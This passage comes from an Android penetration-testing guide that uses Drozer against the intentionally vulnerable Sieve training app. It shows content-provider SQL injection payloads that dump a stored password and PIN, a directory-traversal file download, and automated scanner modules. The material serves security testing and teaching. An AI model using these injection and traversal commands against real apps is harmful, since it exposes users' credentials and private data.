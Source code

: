 ```text
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
| table | Key              | Key              | 5        | CREATE TABLE ... |
```

SQL Injection may also be used to retrieve data from otherwise protected tables:

```text
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
| Password | pin |
| thisismypassword | 9876 |
```

You can automate these steps with the `scanner.provider.injection` module, which automatically finds vulnerable content providers within an app:

```text
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

#### File System Based Content Providers

Content providers can provide access to the underlying filesystem. This allows apps to share files \(the Android sandbox normally prevents this\). You can use the Drozer modules `app.provider.read` and `app.provider.download` to read and download files, respectively, from exported file-based content providers. These content providers are susceptible to directory traversal, which allows otherwise protected files in the target application's sandbox to be read.

```text
dz> run app.provider.download content://com.vulnerable.app.FileProvider/../../../../../../../../data/data/com.vulnerable.app/database.db /home/user/database.db
Written 24488 bytes
```

Use the `scanner.provider.traversal` module to automate the process of finding content providers that are susceptible to directory traversal:

```text
dz> run scanner.provider.traversal -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Vulnerable Providers:
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.FileBackupProvider
```
